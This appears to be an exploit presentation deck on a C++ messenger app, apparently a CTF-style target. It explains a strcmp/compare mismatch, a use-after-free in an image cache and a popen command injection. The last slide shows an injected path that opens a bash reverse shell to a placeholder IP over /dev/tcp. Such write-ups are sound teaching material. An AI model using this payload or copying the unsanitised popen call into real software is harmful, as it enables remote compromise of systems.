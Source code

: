 ## Vulnerability and Exploitation 
- Hongsik Kim (w/ VOM)

---

## New Features
1. Image File Cache
2. /r, /rpl Command

---

## Image File Cache
---?image=assets/image/origin.jpg&size=auto 50%

---?image=assets/image/cached.JPG&size=auto 50%

---

## /r Command
---?image=assets/image/reply.jpg&size=auto 70%

---

## Vulnerabilities
- Logical |
    - Difference between strcmp and compare |

- Memory |
    - Use After Free |
    - Command Injection |

---

### poc.cc

```C++
using namespace std;

int main(){
    char buf[100] = "abcd\x00efg";
    string s1 = string(buf, 8);
    string s2 = string(buf);
    
    if (!strcmp(s1.c_str(), s2.c_str()))
        cout << "strcmp equal!!" << endl;

    if (!s1.compare(s2))
        cout << "compare equal!!" << endl;
}
```

@[9](Executed)

---

### Utils/Cache.cc

```C++
#include "Cache.hh"

namespace Cache {
    Cache::Cache() {
        count = 0;
    }
    Cache::~Cache() {
    }
    
    Element* Cache::find(string url) {
        for (auto it = data.begin(); it != data.end(); ++it) {
            if (!strcmp(url.c_str(), (*it).first.c_str()))
                return (*it).second;
        }
        return NULL;
    }


    void Cache::insert(string url, string sender, string path) {
        if (this->is_full())
            return;
        Element* elem = new Element(path, sender);
        data.push_back(make_pair(url, elem));
        count++;
    }

    Element* Cache::remove(string url) {
        auto elem = this->find(url);
        if (elem){
            for (auto it = data.begin(); it != data.end(); ++it) {
                if (!url.compare((*it).first)) {
                    it = data.erase(it);
                    return elem;
                }
            }
        }
        return elem;
    }

    void Cache::update(string url) {
        auto elem = this->remove(url);
        if (elem) {
            data.push_back(make_pair(url, elem));
        }
    }

    void Cache::pop() {
        auto it = data.begin();
        ++it;
        delete (*it).second;
        data.erase(it);
        count--;
    }

    Element::Element(string _path, string _sender) {
        path = _path;
        sender = _sender;
    }
    Element::~Element() {
    }
    
    string Element::GetPath() {
        return path;
    }

    string Element::GetSender() {
        return sender;
    }
}
```

@[10-16](Cache::find)
@[12](Using strcmp)
@[27-38](Cache::remove)
@[31](Using String::compare)
@[40-45](Cache::update)
@[47-53](Cache::pop)
@[55-68](Element Class)

---

### OnionMessenger.cc

```C++
void OnionMessenger::HandleAArt(Message::ImgLayer *msg) {                      
    auto sender = msg->GetSender();                                            
    auto url = msg->GetUrl();                                                  
    auto elem = image_cache->find(url);                                        
    string path;                                                               
    if (!elem){		// Cache Miss                                                              
        provider->PushChat(sender, "\n" + \
            Features::DisplayAArt(url, path));
        if (image_cache->is_full()) {                                          
            image_cache->pop();                                                
        }                                                                      
        image_cache->insert(url, sender, path);                                
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }                                                                          
    snprintf(recent_user, MAX_ID_LEN, "%s", sender.c_str());                   
    delete msg;                                                                
}                                                
```

@[6-12](Cache Miss)
@[13-17](Cache Hit)

---

## Exploit Scenario
@[HandShake]()
---?image=assets/image/process1.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process2.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process4.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process5.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process6.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
<!-- .slide: data-background-transition="none" -->

---

## Control GetPath
```C++
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }
```

@[3](with manipulated path)

---

### Utils/Features.cc
```C++
string Asciiart(const char *filepath) {                                        
    string path = "/root/bin/goasciiart " ;                                    
    //string path = "/bin/go/bin/goasciiart ";                                 
    string result= "";                                                         
    path.append(" -p ").append(filepath).append(" -w 80");                     
    char buf[1024];                                                            
    FILE *fp=NULL;                                                             
    cout << path << endl;                                                      
    fp=popen((char*)path.c_str(),"r");                                         
    if (fp) {                                                                  
        while ((fgets(buf,1024,fp)) != NULL) {                                 
            result.append(string(buf));                                        
        }                                                                      
        pclose(fp);                                                            
    }                                                                          
    return result;                                                             
}                                  
```
@[5, 9](Command Injection)

---                                                                          
### Get a shell!

```C++
popen("/root/bin/goasciiart –p \
    ;echo \"bash -i >& /dev/tcp/IPADDR/8080 0>&1\"  | bash;\
    –w 80");
```

---

# Demo


